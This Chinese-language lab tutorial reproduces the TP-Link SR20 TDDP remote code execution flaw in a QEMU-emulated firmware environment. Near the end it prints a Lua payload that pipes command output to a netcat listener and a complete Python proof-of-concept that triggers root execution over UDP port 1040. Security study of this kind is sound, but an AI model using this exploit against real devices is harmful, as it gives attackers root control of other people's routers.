# 用qemu搭建复现TP-Link SR20本地网络远程代码执行漏洞

## 漏洞简介

### tddp协议

tddp协议是一个TP-Link申请过专利的调试协议基于udp协议，有v1，v2两个版本，基于 UDP 运行在 1040 端口，TP-Link SR20 设备运行了 V1 版本的 TDDP 协议，V1 版本无需认证，只需往 SR20 设备的 UDP 1040 端口发送数据，且数据的第二字节为 0x31 时，SR20 设备会连接发送该请求设备的 TFTP 服务下载相应的文件并使用 LUA 解释器以 root 权限来执行，这就导致存在远程代码执行漏洞。可以从从[官网](https://www.tp-link.com/us/support/download/sr20/#Firmware)下载存在漏洞的v1-180518版本固件”SR20(US)_V1_180518.zip”



## 复现环境搭建

### 工具环境（基于Ubuntu 18.04）

**QEMU**

Qemu 是纯以GPL许可证分发源码的模拟处理器，在GNU/Linux平台上使用广泛。几乎可以模拟任何硬件设备。

采用apt方式安装

```
sudo apt-get install qemu  #包含qemu-mips-static，qemu-mipsel-static,qemu-arm-static等
sudo apt-get install qemu-user-static  #system mode，包含qemu-system-mips，qemu-system-mipsel,qemu-system-arm等
sudo apt-get install qemu-system
```

在https://people.debian.org/~aurel32/qemu/armhf/下载对应的文件，这路由器的架构是基于arm的。




**binwalk**

binwalk的安装不再赘述，网上很多教程，但是建议采用从github下载源码构建，apt-get install binwalk安装的可能无法正常使用（版本问题）

https://github.com/ReFirmLabs/binwalk/blob/master/INSTALL.md 参考官方安装教程

### qemu虚拟机漏洞环境

使用binwalk -e 命令解开固件包，进入解开的文件夹，squashfs-root即使我们需要的文件系统

```
binwalk -e tpra_sr20v1_us-up-ver1-2-1-P522_20180518-rel77140_2018-05-21_08.42.04.bin
```



我个人常用的qemu虚拟机网络配置（与外界通信）有两种，一种是桥接网络，一种是NAT型，下边配置一下nat型

```
sudo tunctl -t tap0 -u `whoami`  # 为了与 QEMU 虚拟机通信，添加一个虚拟网卡
sudo ifconfig tap0 10.10.10.1/24 # 为添加的虚拟网卡配置 IP 地址
qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2 console=ttyAMA0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```

等待虚拟机启动，过程比其他镜像启动的要慢一些，耐心等待，用户名和密码都是root




此时登陆进去的虚拟机还没有ip分配，需要手动配置，然后qemu虚拟机就可以和宿主机通信了，可以尝试ping 一下接口 10.10.10.1看是否成功

```
ifconfig eth0 10.10.10.2/24
```

然后qemu虚拟机就可以和宿主机通信了，尝试ping 一下接口 10.10.10.1看是否成功



在宿主机使用scp命令将squashfs-root整个目录传入qemu虚拟机中

```
scp -r squashfs-root/ root@10.10.10.2:/root/
```




使用chroot切换根目录，使用 chroot 后，系统读取的是新根下的目录和文件，也就是固件的目录和文件 chroot 默认不会切换 /dev 和 /proc, 因此切换根目录前需要现挂载这两个目录

```
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root sh # 切换根目录后执行新目录结构下的 sh shell
```




### 宿主机搭建 TFTP Server

在宿主机输入如下命令

```
sudo apt install atftpd
```

编辑 `/etc/default/atftpd` 文件，`USE_INETD=true` 改为 `USE_INETD=false` ，修改 `/srv/tftp` 为 `/tftpboot`

最终 `/etc/default/atftpd` 文件内容如图



随后在宿主机根目录下执行

```
mkdir /tftpboot   #创建目录，对应配置文件夹
chmod 777 /tftpboot   #改权限
sudo systemctl start atftpd # 启动 atftpd
sudo systemctl status atftpd  #查看tftp状态
*****************************************************************************
*如果执行命令 sudo systemctl status atftpd 查看 atftpd 服务状态时                *
*                                                                           *
*提示 atftpd: can't bind port :69/udp 无法绑定端口                             *
*                                                                           *
*可以执行 sudo systemctl stop inetutils-inetd.service 停用 inetutils-inetd 服务*
*                                                                           *
*再执行 sudo systemctl restart atftpd 重新启动 atftpd 即可正常运行 atftpd        *
*****************************************************************************
```




此时所有环境就已经搭建完成了


## 漏洞复现过程

在 atftp 的根目录 `/tftpboot` 下写入 payload 文件，内容如下

```
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```



宿主机写入EXP

```
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

等待一切就绪之后，准备突破复现！！！！

**重现步骤为：**

1. QEMU 虚拟机中启动 tddp 程序

2. 宿主机使用 NC 监听端口

3. 执行 POC，获取命令执行结果

   




## 最后

qemu是一个固件模拟神器，当遇到FAT工具包（ firmware-analysis-toolkit ）仿真不了的固件（文件系统），可以尝试根据系统架构等信息用qemu去模拟，当然，不总是一帆风顺的，会有很多坑要去踩，需要做的就是填平它们！！


